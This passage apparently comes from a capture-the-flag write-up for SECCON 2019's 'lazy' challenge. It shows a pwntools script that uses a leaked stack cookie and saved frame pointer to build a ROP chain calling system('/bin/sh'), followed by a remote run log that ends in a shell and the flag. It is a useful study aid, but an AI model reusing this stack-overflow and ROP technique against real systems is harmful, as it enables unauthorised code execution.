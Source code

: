 ```python

s.recvuntil("Filename : ")
saved_ebp = int(s.recvline().strip(), 16)
log.info("saved_ebp = {}".format(hex(saved_ebp)))


s.sendline("4")
# AA so it doesn't crash on download
padding = "AA" + "\x00"*0x16
payload = padding + p64(cookie) + p64(saved_ebp) + p64(pop_rdi) + p64(bin_sh) + p64(system)

s.recvuntil("Input file name")
s.sendline(payload)
s.recvuntil("No such file!")

s.interactive()
```

Output: 
```
╭─vagrant@ubuntu-bionic ~/share/seccon19/pwn/lazy
╰─$ python exploit.py remote
[+] Opening connection to lazy.chal.seccon.jp on port 33333: Done
[*] leak 0x7f4351c05560
[*] libc base  @ 0x7f4351b8d000
[*] system     @ 0x7f4351bcc570
[*] /bin/sh    @ 0x7f4351cf0c38
[*] stack cookie = 0xdc27f3ac4b683800
[*] saved_ebp = 0x7fff2f338da0
[*] Switching to interactive mode

$ ls
810a0afb2c69f8864ee65f0bdca999d7_FLAG
cat
lazy
ld.so
libc.so.6
q
run.sh
$ ./cat 810a0afb2c69f8864ee65f0bdca999d7_FLAG
SECCON{Keep_Going!_KEEP_GOING!_K33P_G01NG!}
```




